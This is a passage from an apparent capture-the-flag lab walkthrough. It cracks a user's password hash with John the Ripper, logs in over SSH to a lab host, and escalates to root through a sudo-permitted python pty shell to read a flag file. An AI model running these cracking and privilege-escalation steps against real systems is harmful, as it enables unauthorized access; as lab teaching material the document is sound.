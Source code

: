 		-root@kali$> echo "(stevens password hash)" > hashes.txt
		
		-john hashes.txt
		
		![](john hashes.JPG)
    
		-ssh steven@192.168.1.110
		
		-sudo -l
     	 
 		![](steven-python.JPG)
 		
 		- sudo python -c 'import pty;pty.spawn("/bin/bash");'
 		
 		-cd /root
 		
 		-ls
 		
 		-cat flag4.txt
 		
		![](steven-flag4.JPG)
		